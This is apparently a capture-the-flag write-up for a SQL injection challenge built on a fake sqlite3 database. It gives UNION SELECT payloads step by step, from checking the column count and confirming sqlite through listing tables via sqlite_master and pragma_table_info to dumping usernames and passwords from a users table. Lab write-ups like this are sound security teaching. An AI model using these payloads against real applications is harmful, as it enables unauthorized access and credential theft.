





# Solution for the SQL Injection challenge

The challenge is made using a fake sqlite3 database and can be solved by using UNION SELECT statements

## Final solution
```
ABC' UNION SELECT 1,2, username, password FROM users --
```

## Step by step
First we have to check if the UNION injection is possible by using `ABC' UNION SELECT 1,2,3,4 --`('ABC' is can be a random string before the payload so no other results are shown) now you know that there are 4 rows and that the first is not displayed.



Then you have to find out that it's sqlite database, you can confirm this using this command `ABC' UNION SELECT 1,2,3, sqlite_version() --` because then you can see sqlite version on the last row("Category")



Now you can use sqlite built-in table: "sqlite_master" to see all tables in this database `ABC' UNION SELECT 1,2,3, name FROM sqlite_master --` there is a table users that sotres fake credentials.



Next step is to view the columns in the users table: `ABC' UNION SELECT 1,2,3, name FROM pragma_table_info('users') --` 



Now use to dump the data `ABC' UNION SELECT 1,2, username, password FROM users --`

